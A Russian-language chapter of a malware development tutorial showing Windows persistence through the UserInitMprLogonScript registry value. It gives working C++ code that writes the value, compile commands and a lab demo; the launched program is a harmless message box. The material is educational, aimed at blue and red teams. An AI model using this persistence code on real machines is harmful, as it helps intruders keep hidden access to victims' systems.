\newpage
\subsection{86. разработка вредоносного ПО: закрепление (persistence) - часть 20. UserInitMprLogonScript (скрипт входа в систему). Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник закрепления вредоносного ПО: через значение `UserInitMprLogonScript`.     

### UserInitMprLogonScript

Windows позволяет выполнять скрипты входа в систему при каждом входе пользователя или группы пользователей. Добавление пути к скрипту в реестр `HKCU\Environment\UserInitMprLogonScript` позволяет это сделать. Таким образом, для установления закрепления злоумышленники могут использовать сценарии входа в систему Windows, которые выполняются автоматически при инициализации сеанса.      

### практический пример

Рассмотрим практический пример. Прежде всего, как обычно, создаем "вредоносное" приложение. Для простоты, как обычно, это приложение `meow-meow` messagebox (`hack.cpp`):  

```cpp
/*
hack.cpp
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

А затем просто создаем скрипт для закрепления (`pers.cpp`):      


```cpp
/*
pers.cpp
windows persistence via
setting UserInitMprLogonScript value
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/09/malware-pers-20.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // env
  const char* env = "Environment";

  // evil app
  const char* exe = "Z:\\2022-12-09-malware-pers-20\\hack.exe";

  // environment
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)env, 0 , KEY_WRITE, 
  &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKEY_CURRENT_USER\Environment" /v "UserInitMprLogonScript" /t 
    // REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UserInitMprLogonScript", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Как видите, логика проста. Просто установим значение ключа `UserInitMprLogonScript` в `HKCU\Environment` на полный путь к нашей "вредоносной программе" - `Z:\\2022-12-09-malware-pers-20\hack.exe`.

### demo

Давайте посмотрим, как все работает на практике. Прежде всего, проверяем реестр:      

```powershell
reg query "HKCU\Environment" /s
```

{width="80%"}    


Затем компилируем наше "вредоносное" ПО на машине атакующего (`kali`):    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

И для проверки корректности пробуем запустить `hack.exe` на машине жертвы (`Windows 10 x64` в моем случае):    

```powershell
.\hack.exe
```

{width="80%"}    

Как можно видеть, наше "вредоносное" ПО работает идеально.    

На следующем шаге компилируем скрипт закрепления на машине атакующего:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Запускаем его на машине жертвы:    

```powershell
.\pers.exe
```

Затем снова проверяем значения ключей реестра:        

```powershell
reg query "HKCU\Environment" /s
```

{width="80%"}    

Как видно, ключ (`UserInitMprLogonScript`) установлен.    

Теперь выходим из системы и входим снова:     

{width="80%"}    

{width="80%"}    

И через несколько миллисекунд появляется наш `meow-meow` messagebox:     

{width="80%"}    

Затем, если открыть Process Hacker и проверить свойства `hack.exe`:     

{width="80%"}    

{width="80%"}    

мы видим, что родительский процесс - это "несуществующий" (non-existent) процесс.    

Если вы хотя бы немного изучали внутреннюю структуру Windows, то знаете, что существуют процессы, у которых родительский процесс отображается как "несуществующий". Например, Windows Explorer - `explorer.exe`. Родительским процессом является `userinit.exe` или `winlogon.exe`, но может быть и другой `.exe`, использующий `explorer.exe`. Родительский процесс отображается как `<Non-existent Process>`, так как `userinit.exe` завершает свою работу. Другой пример - Windows Logon - `winlogon.exe`, у которого родительский процесс "не существует", так как `smss.exe` завершает выполнение.    

Если проверить свойства `hack.exe` через [Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer), можно увидеть значение "Autostart Location":    

{width="80%"}    

Все сработало идеально! =^..^=    

После завершения эксперимента удаляем ключ:    

```powershell
Remove-ItemProperty -Path "HKCU:\Environment" -Name "UserInitMprLogonScript"
```

{width="80%"}    

Этот метод закрепления использовался группой [APT28](https://attack.mitre.org/groups/G0007), а также вредоносными программами [Attor](https://attack.mitre.org/software/S0438) и [Zebrocy](https://attack.mitre.org/software/S0438).    

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer)        
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[APT28](https://attack.mitre.org/groups/G0007)      
[Attor](https://attack.mitre.org/software/S0438)        
[Zebrocy (Trojan)](https://attack.mitre.org/software/S0438)       
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-12-09-malware-pers-20)     
